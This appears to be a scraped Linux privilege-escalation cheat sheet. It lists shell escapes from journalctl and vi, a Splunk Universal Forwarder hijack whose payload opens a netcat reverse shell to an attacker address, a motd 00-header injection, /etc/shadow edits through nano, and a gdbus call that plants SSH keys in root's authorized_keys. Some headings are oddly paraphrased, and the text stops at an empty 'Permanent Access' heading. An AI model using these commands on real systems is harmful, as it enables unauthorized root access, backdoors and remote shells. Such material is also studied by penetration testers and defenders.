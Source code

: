 
#### Chroot

- Execute a command in a chrooted environment:
    
    
    
    `chroot /root /bin/bash`


#### Increase Access in journalctl

Run journalctl with elevated privileges:



`# Run journalctl with elevated privileges sudo journalctl  # Execute shell from journalctl !/bin/sh`

#### Improve Access with Splunk Universal Forward Hijacking

Use PySplunkWhisperer2_remote.py to hijack Splunk Universal Forwarder:



`python PySplunkWhisperer2_remote.py --lhost 10.10.10.5 --host 10.10.15.20 --username admin --password admin --payload '/bin/bash -c "rm /tmp/luci11;mkfifo /tmp/luci11;cat /tmp/luci11|/bin/sh -i 2>&1|nc 10.10.10.5 5555 >/tmp/luci11"'`

#### Increase Access with 00-header File

Add "id" to 00-header file:



`echo "id" >> 00-header`

#### Increase Accessibility in Nano

Use shortcuts in Nano to increase accessibility:

- Press Ctrl+R followed by Ctrl+X
- Alternatively, press Ctrl+W and edit /etc/shadow

#### Increase Access in Vi

Execute shell from within Vi:



`:!/bin/sh`

#### Gdbus

Use gdbus to call methods:



`gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/authorized_keys /root/.ssh/authorized_keys true`

### Permanent Access

#### For Linux (in the Attacker’s System)
